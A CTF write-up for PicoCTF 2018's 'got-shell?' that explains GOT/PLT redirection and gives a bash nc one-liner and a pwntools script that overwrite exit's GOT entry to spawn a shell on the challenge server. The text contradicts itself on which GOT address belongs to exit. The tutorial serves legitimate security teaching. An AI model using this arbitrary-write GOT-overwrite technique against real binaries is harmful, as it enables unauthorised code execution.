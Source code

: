# Write-up for shellcode challenge
# PicoCTF_2018: got-shell?

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect to it with nc 2018shell.picoctf.com 23731. Source

> # Introduction
In this challenge our goal is to overwrite the Global Offset Table and redirect program execution

If you don't know what GOT and PLT are, there is a very good explanation [here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

In brief, most programs call some functions that are included in libraries (e.g. printf in libc library). However, we notice that
processor doesn't call instantly printf function, but instruction pointer goes first to procedure link table (printf@plt). 



There, we're performing a jump. Specifically, a jump to a function pointer. This pointer could be found in got.plt section.
If we go to the address that pointer points to we find 
the real address of printf.

It's important to mention that this procedure happens when we've already called printf at least once. If we haven't called printf 
befor, we need to trigger the first lookup. You can find what happens exactly in the link above.
For the attack, what matters is that program makes a jump to andress, which location we know. (remember the pointer!! and the dereference our processor does first to jump to the resulting address)

Let's disassemble the binary with gdb and see all this stuff I've told you so far.

```asm
Dump of assembler code for function main:
=> 0x08048564 <+0>:	lea    ecx,[esp+0x4]
   0x08048568 <+4>:	and    esp,0xfffffff0
   0x0804856b <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804856e <+10>:	push   ebp
   0x0804856f <+11>:	mov    ebp,esp
   0x08048571 <+13>:	push   ecx
   0x08048572 <+14>:	sub    esp,0x124
   0x08048578 <+20>:	mov    eax,ecx
   0x0804857a <+22>:	mov    eax,DWORD PTR [eax+0x4]
   0x0804857d <+25>:	mov    DWORD PTR [ebp-0x11c],eax
   0x08048583 <+31>:	mov    eax,gs:0x14
   0x08048589 <+37>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804858c <+40>:	xor    eax,eax
   0x0804858e <+42>:	mov    eax,ds:0x804a030
   0x08048593 <+47>:	push   0x0
   0x08048595 <+49>:	push   0x2
   0x08048597 <+51>:	push   0x0
   0x08048599 <+53>:	push   eax
   0x0804859a <+54>:	call   0x8048410 <setvbuf@plt>
   0x0804859f <+59>:	add    esp,0x10
   0x080485a2 <+62>:	sub    esp,0xc
   0x080485a5 <+65>:	push   0x80486f8
   0x080485aa <+70>:	call   0x80483d0 <puts@plt>
   0x080485af <+75>:	add    esp,0x10
   0x080485b2 <+78>:	sub    esp,0x8
   0x080485b5 <+81>:	lea    eax,[ebp-0x114]
   0x080485bb <+87>:	push   eax
   0x080485bc <+88>:	push   0x8048758
   0x080485c1 <+93>:	call   0x8048430 <__isoc99_scanf@plt>
   0x080485c6 <+98>:	add    esp,0x10
   0x080485c9 <+101>:	mov    eax,DWORD PTR [ebp-0x114]
   0x080485cf <+107>:	sub    esp,0x4
   0x080485d2 <+110>:	push   eax
   0x080485d3 <+111>:	push   0x804875c
   0x080485d8 <+116>:	lea    eax,[ebp-0x10c]
   0x080485de <+122>:	push   eax
   0x080485df <+123>:	call   0x8048420 <sprintf@plt>
   0x080485e4 <+128>:	add    esp,0x10
--Type <RET> for more, q to quit, c to continue without paging--
   0x080485e7 <+131>:	sub    esp,0xc
   0x080485ea <+134>:	lea    eax,[ebp-0x10c]
   0x080485f0 <+140>:	push   eax
   0x080485f1 <+141>:	call   0x80483d0 <puts@plt>
   0x080485f6 <+146>:	add    esp,0x10
   0x080485f9 <+149>:	sub    esp,0x8
   0x080485fc <+152>:	lea    eax,[ebp-0x110]
   0x08048602 <+158>:	push   eax
   0x08048603 <+159>:	push   0x8048758
   0x08048608 <+164>:	call   0x8048430 <__isoc99_scanf@plt>
   0x0804860d <+169>:	add    esp,0x10
   0x08048610 <+172>:	mov    edx,DWORD PTR [ebp-0x114]
   0x08048616 <+178>:	mov    eax,DWORD PTR [ebp-0x110]
   0x0804861c <+184>:	push   edx
   0x0804861d <+185>:	push   eax
   0x0804861e <+186>:	push   0x8048791
   0x08048623 <+191>:	lea    eax,[ebp-0x10c]
   0x08048629 <+197>:	push   eax
   0x0804862a <+198>:	call   0x8048420 <sprintf@plt>
   0x0804862f <+203>:	add    esp,0x10
   0x08048632 <+206>:	sub    esp,0xc
   0x08048635 <+209>:	lea    eax,[ebp-0x10c]
   0x0804863b <+215>:	push   eax
   0x0804863c <+216>:	call   0x80483d0 <puts@plt>
   0x08048641 <+221>:	add    esp,0x10
   0x08048644 <+224>:	mov    eax,DWORD PTR [ebp-0x114]
   0x0804864a <+230>:	mov    edx,eax
   0x0804864c <+232>:	mov    eax,DWORD PTR [ebp-0x110]
   0x08048652 <+238>:	mov    DWORD PTR [edx],eax
   0x08048654 <+240>:	sub    esp,0xc
   0x08048657 <+243>:	push   0x80487ac
   0x0804865c <+248>:	call   0x80483d0 <puts@plt>
   0x08048661 <+253>:	add    esp,0x10
   0x08048664 <+256>:	sub    esp,0xc
   0x08048667 <+259>:	push   0x1
   0x08048669 <+261>:	call   0x80483f0 <exit@plt>
End of assembler dump.
```

Okay, a lot of puts@plt functions. We set a breakpoint at the second puts@plt.

![Screenshot from 2019-10-12 20-38-50](https://user-images.githubusercontent.com/37578272/66705516-61691300-ed30-11e9-9315-d71b3c9caa62.png)

We can see that our program first goes to plt section and the first instruction is a jmp to an address which is pointed by 0x804a00c.
Going to 0x804a00c (inside got.plt) we find 0xf7e3a210 which is the real address of puts.

Now, what if we could change the address pointed by 0x804a00c? We could redirect our program execution, not going puts function but in some malware function or in a shellcode injected by us.
Of course, this could happen in the first call of puts. 
Just following a different procedure does not mean that we do not have a jump again to a pointer of an address. Simply the first time, the address is not puts' real address but processor in reality goes to the next instruction in plt section of puts so as to 
to trigger the first lookup. But, we don't care, again we can redirect program execution. 
Disassembling exit@plt function we get the following:
![Screenshot from 2019-10-12 20-52-04](https://user-images.githubusercontent.com/37578272/66705651-2bc52980-ed32-11e9-8f04-1d87533cd17c.png)

It's the first call so in 0x804a014 (got.plt section) we have 0x080483f6 which is not exit's real address but we return to exit@plt as I mentioned above.
But, again if we change the value inside 0x804a014 we could make great things.

Here, I want to mention to you to check about RELRO, ASLR, DEP, PIE that could make our job too difficult. Some of them in this binary are disabled
and we can hardcode the addresses and also write to GOT(--> partial RELRO)

The program kindly allows us to write an arbitrary DWORD(whatever it is, could be an address too) to an arbitrary address. Per
Hmm, only 4 bytes. We can't inject a shellcode. 
Thinking some hour of what to do, I searched the functions that are included in this program and look what I found:
```bash
objdump -t auth
```
![Screenshot from 2019-10-12 21-03-26](https://user-images.githubusercontent.com/37578272/66705776-c40fde00-ed33-11e9-8c7d-dee284806f5e.png)

There is a win function we couldn't see. Disassembling win function:
```asm
Dump of assembler code for function win:
   0x0804854b <+0>:	push   ebp
   0x0804854c <+1>:	mov    ebp,esp
   0x0804854e <+3>:	sub    esp,0x8
   0x08048551 <+6>:	sub    esp,0xc
   0x08048554 <+9>:	push   0x80486f0 ; address of "/bin/sh"
   0x08048559 <+14>:	call   0x80483e0 <system@plt>
   0x0804855e <+19>:	add    esp,0x10
   0x08048561 <+22>:	nop
   0x08048562 <+23>:	leave  
   0x08048563 <+24>:	ret    
End of assembler dump.
```
Ohhh win function calls system with /bin/sh argument. If we redirect our program there we will get a shell.

Consequently, when program ask us in which address to write something, we tell them to 0x804a00c ( exit@got.plt ). And what to write?

ofcourse the address of win function: 0x0804854b

That's it, lets write a script both in bash and python.
```bash
(echo 0x804a00c; echo; echo 0x804854b; cat) | nc 2018shell.picoctf.com 23731
```
Then we've got a shell and running **cat flag.txt** gives us the flag.

```python
#!/usr/bin/python
from pwn import *
from time import sleep

auth = ELF('./auth')

win_func_addr = str(hex(auth.symbols['win']))
exit_got_plt = str(hex(auth.got['exit']))
s = remote("2018shell.picoctf.com", 23731)

print 'win address = ', win_func_addr
print 'exit@got.plt addr = ', exit_got_plt
print s.recv()
s.sendline(exit_got_plt)
print s.recv()
s.sendline(win_func_addr)
s.sendline('cat flag.txt')
s.interactive()
s.close()
```





